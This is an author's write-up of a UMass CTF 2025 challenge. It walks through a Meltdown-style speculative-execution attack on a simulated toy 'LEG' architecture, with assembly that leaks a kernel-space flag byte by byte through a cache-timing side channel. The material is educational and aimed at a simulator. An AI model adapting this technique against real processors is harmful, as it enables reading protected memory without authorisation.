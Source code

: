 ```yaml
---
title: "UMass CTF 2025 - Ghost in the Leg"
date: 2025-04-20T15:00:00-05:00
draft: false
toc: false
images:
tags:
  - writeups
  - hardware
  - pwn
  - author
---
```


This is a challenge I wrote for UMass CTF 2025 using a special version theLEG™ computer architecture.  I'll have a separate series of blog posts on the architecture itself and why it is interesting, but for this I want to go over the specifics of the challenge.

## The Challenge
Participants in the CTF were given the following prompt:

> TheLEG™ just got updated with a brand new UI and speculative execution extension! Surely no one can read data from kernel space...
>
> The flag is at address 0x800000
>
> Source for this challenge can be found at: http://bit.ly/43UdRzz
>
> It is highly recommended to try solutions locally before running them on remote, it will be easier to debug and MUCH faster.

They were also provided a remote server with a web interface that looks like this:

![Leg UI](./images/1-leg_ui.png)

## The LEG
The LEG is a very minimal ARM based architecture that was originally designed for the CS535 class at UMass Amherst.  It has a fixed length 32 bit instruction, and can only address on registers and immediate values.  

For this challenge, I wrote a LEG simulator in Python that has an out of order execution extension based on Tomasulo's Algorithm and a G-share branch predictor. It also supports hardware exception handling for certain limited exceptions.

## The Vulnerability
This version of the LEG can be attacked with a version of the Meltdown vulnerability that affects certain Intel processors.  A good place to begin learning about this vulnerability is [with the initial paper that reported it](https://meltdownattack.com/meltdown.pdf).  The paper is well constructed and explains the attack well, which is somewhat uncommon in academic attack papers.

## Running the Exploit
The exploit can be thought of in a series of steps:

### Step 1: Access kernel memory
We know the flag is at 0x800000, so the first step is to load the data from that address into a register.

```asm
mov r0, 0x8000
lsl r0, 0x8
ldr r1, r0
```

We now have the data from the kernel address in a reorder buffer entry that will write to `r1`.  If we run this as it is though, it will throw an exception and the data will never make into the physical register, so we'll never see it.

### Step 2: Store the data before the exception handler finishes
The next thing we have to do is leak the data.  The key insight is that the value from the kernel exists in the reorder buffer for around 50 clock cycles before it is wiped, and other instructions can access that data in the meantime.

An easy side channel can be established through cache timings.  First, we need to flush the cache so it is completely empty.  This means any cache access will take roughly 15 cycles.
```asm
flush
```

Next, take the value that was retrieved from the kernel.  We'll leak one byte at a time, so we'll shift and mask so we only have one byte from the word the kernel returned:
```asm
lsr r1, 24
and r1, 0xFF
```
Once we have the byte, we multiply it by the size of a cache line (64), then access the cache at the index of the kernel value.  This means there will only be one "hot" line in the cache - the line at the index of the kernel value.

```asm
lsl r1, 0x6
ldr r2, r1
```

### Step 3: Handle the exception
We now wait for the exception to throw and handle it without crashing.  This can be done through the LEG interface.  The exact address will change for each program, but the following is an example:
```asm
.handler DATA_ABORT
    b 0x20
```

### Step 4: Retrieve the value from the cache
To retrieve the value, we will loop through each line of the cache, and save the index that returns its data the fastest.  This will be the "hot" cache line, and will be at the index that was determined by the kernel byte!

```asm
mov r1, 0x1      ; current fastest
mov r4, 0xFFF    ; fastest time
mov r2, r1       ; current fastest cycles

; Loop
mov r5, r2
mul r5, 0x40 
add r5, 0x4

cycles r6       
ldr r7, r5
cycles r7

sub r7, r6
cmp r7, r4
bgt 0x7c        ; timing not the fastest, skip store
mov r4, r7      ; timing fastest seen, store index
mov r1, r2

add r2, 0x1     
cmp r2, 0x100
ble 0x50        ; loop back to beginning if still bytes to check

; Store result
str r1, 0x100
```

The memory address at 0x100 will contain the first byte of the flag!

## Final solution
The following script and exception handler will dump the whole flag when run against the LEG.  It is the same as the principle outlined above, but has a few more bells and whistles with the assembly.

```asm
; Setup
mov r9, 0x30
mov r10, 0x0     ; iterations
mov r11, 0x100   ; place to store flag

; Access kernel addr
flush             ; clean cache
mov r0, 0x8000
lsl r0, 0x8
add r0, r10
ldr r1, r0

; Access cache at kernel addr
mov r3, r10
mod r3, 0x4
mul r3, 0x8
mov r4, 0x18
sub r4, r3
lsr r1, r4
and r1, 0xFF
lsl r1, 0x6
ldr r2, r1

; Check to see which line is the fastest
; Setup
mov r1, 0x1     ; current fastest
mov r4, 0xFFF   ; fastest time
mov r2, r1      ; current fastest cycles

; Loop
mov r5, r2
mul r5, 0x40    ; cache line length
add r5, 0x4

cycles r6       
ldr r7, r5
cycles r7

sub r7, r6
cmp r7, r4
bgt 0x7c
mov r4, r7
mov r1, r2

add r2, 0x1
cmp r2, 0x100
ble 0x50

; Store result
str r1, r11
add r11, 0x4
add r10, 0x1

; check to see if we should finish
cmp r9, r10
bge 0x0c
halt
```

```asm
.handler DATA_ABORT
    b 0x20
```

## Final Thoughts
I enjoyed making this challenge, and felt like I learned a lot while doing it.  Hopefully if you played it you enjoyed it too.